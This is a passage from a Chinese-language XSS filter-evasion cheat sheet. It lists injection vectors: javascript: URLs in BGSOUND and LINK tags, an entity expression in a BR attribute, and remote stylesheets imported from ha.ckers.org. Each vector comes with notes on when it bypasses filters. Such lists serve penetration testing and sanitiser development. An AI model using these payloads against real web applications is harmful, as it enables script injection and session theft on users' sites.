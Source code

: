 * * *

BGSOUND(背景音乐)
-------------

```
<BGSOUND SRC="javascript:alert('XSS');">

```

* * *

& JavaScript 包含
---------------

```
<BR SIZE="&{alert('XSS')}">

```

* * *

样式表
---

```
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">

```

* * *

远程样式表
-----

（通过某些方式例如最简单的远程样式表，你可以插入一个样式参数为嵌入表达式的xss代码）。它是仅仅工作在IE浏览器或是使用了IE渲染引擎的Netscape 8.1+。需要注意的是页面中并没有展现出它包含了javascript代码。注意：所有的远程样式表示例需要至少用到body标签，负责将无法工作除非页面中包含除了向量本身的其他内容。因此你需要添加至少一个字母到页面确保他可以工作如果它是一个空白页面。

```
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">

```

* * *

远程样式表2
------

他的工作原理与上面相同。但是使用了STYLE标签代替LINK标签。榆次向量稍有不同的变异被用于攻击Google Desktop。你可以移除</STYLE>标签当后面的html去闭合它。这个向量是有用的在不允许输入等号或是反斜杠的实际环境中。

```
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>

```

* * *

远程样式表3
------
